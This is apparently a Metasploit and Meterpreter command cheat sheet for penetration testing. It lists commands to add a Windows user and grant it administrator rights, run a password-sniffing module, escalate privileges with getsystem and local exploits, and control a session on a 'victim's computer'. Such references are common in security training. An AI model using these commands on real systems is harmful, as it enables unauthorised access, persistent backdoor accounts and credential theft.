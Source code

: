 ### set CMD to add user to MS system
```
set CMD net user <username> <password> /ADD
exploit
```

### CMD to add new user to the administrators account
```
net localgroup administratos <username> /ADD
```

### Password sniffer
```
use auxiliary/sniffer/psnuffle
show options
```

# Meterpreter
### Privilege Escalation
### load priv extension
```
use priv
```
### run automated privilege escalation
```
getsystem
```
### check user
```
getuid
```
### if getsystem fails
### background the job
```
background
```
### list exploits available
```
use exploit/windows/local/
show options
exploit
```


## Core Commands:

At its most basic use, meterpreter is a Linux terminal on the victim's computer. As such, many of our basic Linux commands can be used on the meterpreter even if it's on a Windows or other operating system. Here are some of the core commands we can use on the meterpreter:
```
?               help menu
background      moves the current session to the background
bgkill          kills a background meterpreter script
bglist          provides a list of all running background scripts
bgrun           runs a script as a background thread
channel         displays active channels
close           closes a channel
exit            terminates a meterpreter session
exploit         executes the meterpreter script designated after it
help            help menu
```